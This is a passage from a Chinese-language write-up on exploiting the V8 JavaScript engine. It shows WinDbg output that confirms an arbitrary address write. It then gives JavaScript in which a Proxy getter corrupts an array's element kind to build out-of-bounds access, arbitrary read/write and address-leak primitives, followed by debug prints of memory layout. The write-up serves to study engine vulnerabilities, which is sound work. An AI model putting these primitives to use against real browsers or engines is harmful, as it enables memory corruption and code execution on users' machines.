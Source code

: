 这就是我们要写入的地址，运行起来看值有没有发生改变：

```shell
0:000> g
(10f8.2a84): Break instruction exception - code 80000003 (first chance)
d8!v8::base::OS::DebugBreak:
00007ff7`e5ae17d0 cc              int     3
0:000> dd 0x3dc0808888f
000003dc`0808888f  41414141 00000000 00000000 00000000
000003dc`0808889f  00000000 00000000 00000000 00000000
000003dc`080888af  00000000 00000000 00000000 00000000
000003dc`080888bf  00000000 00000000 00000000 00000000
000003dc`080888cf  00000000 00000000 00000000 00000000
000003dc`080888df  00000000 00000000 00000000 00000000
000003dc`080888ef  00000000 00000000 00000000 00000000
000003dc`080888ff  00000000 00000000 00000000 00000000
```

成功实现任意地址写，读操作

## 地址泄露

除了任意地址读写之外，我们还需要一个地址泄露原语来寻找合适的地址写入，在Proxy中放置一个对象即可构造addr_of。

```javascript
let p = new Proxy(Object, {
	get: () => {
		vuln_array[0] = {};					// 修改之后的类型是HOLEY_ELEMENTS
		oob_array = [1.1];					// 修改此数组的length来达到oob
		uint64_arw = new BigUint64Array(2);	// 实现任意地址读写
		obj_leaker = {
            a: 0xc00c,
            b: oob_array,
        };									// 实现地址泄露
		%DebugPrint(oob_array);
		//%DebugPrint(uint64_arw);
		%DebugPrint(obj_leaker);
		%SystemBreak();
		return Object.prototype;
	}
});
```

看一下内存布局：

```shell
DebugPrint: 0000009D0808811D: [JSArray]
 - map: 0x009d08241891 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x009d08208dcd <JSArray[0]>
 - elements: 0x009d0808810d <FixedDoubleArray[1]> [PACKED_DOUBLE_ELEMENTS]
 - length: 1
 - properties: 0x009d080406e9 <FixedArray[0]> {
    #length: 0x009d08180165 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x009d0808810d <FixedDoubleArray[1]> {
           0: 1.1
 }
0000009D08241891: [Map]
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - elements kind: PACKED_DOUBLE_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - back pointer: 0x009d08241869 <Map(HOLEY_SMI_ELEMENTS)>
 - prototype_validity cell: 0x009d08180451 <Cell value= 1>
 - instance descriptors #1: 0x009d08209455 <DescriptorArray[1]>
```